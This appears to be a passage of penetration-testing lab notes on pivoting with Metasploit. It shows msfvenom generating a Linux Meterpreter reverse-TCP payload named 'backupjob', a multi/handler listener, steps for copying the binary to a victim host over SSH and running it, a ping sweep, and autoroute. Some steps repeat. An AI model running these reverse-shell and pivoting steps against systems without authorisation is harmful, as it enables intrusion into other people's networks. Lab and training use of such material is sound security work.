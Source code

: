 **2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, do the ping sweep with the module ping_sweep:

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=$newDiscoveredIPrange/23

# As a result we will see:
[*] Performing ping sweep for IP range $newDiscoveredIPrange/23
```

#### Module `Autoroute` in metasploit

Autoroute module allows you to set routes from a meterpreter session to a discovered subnet in the attacked machine. It allow us pivoting from one subnet to another.


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
# From the kali attacker machine
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
# From the kali attacker machine
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```
